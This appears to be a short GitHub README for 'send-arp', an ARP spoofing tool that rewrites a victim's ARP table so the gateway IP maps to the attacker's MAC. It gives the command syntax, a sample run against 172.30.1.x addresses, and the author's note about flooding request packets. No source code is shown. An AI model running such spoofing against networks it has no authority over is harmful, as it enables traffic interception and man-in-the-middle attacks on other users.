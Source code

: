 # send-arp
- control victim's arp table (target ip -> attacker mac)

### Example
```
syntax : send-arp <interface> <sender ip> <target ip> [<sender ip 2> <target ip 2> ...]
sample : send-arp ens33 172.30.1.31 172.30.1.254
```
```bash
$ sudo ./send-arp ens33 172.30.1.31 172.30.1.254
[+] attacker ip addr: ***.**.1.55
[+] attacker mac addr: **:**:**:**:77:6e
[+] sender ip addr: 172.30.1.31
[+] sender mac addr: **:**:**:**:2a:df
[+] target ip addr: 172.30.1.254
```

### Results
![KakaoTalk_Photo_2020-10-13-19-13-27](https://user-images.githubusercontent.com/64528476/95847840-2efd5600-0d88-11eb-8d52-5fa149d08ced.png)


### Some problem
- When I want to get the victim's mac address, until he gives me the reply packet, I request the a lot of request packet.
- I think I can solve this problem by thread programming, but I failed.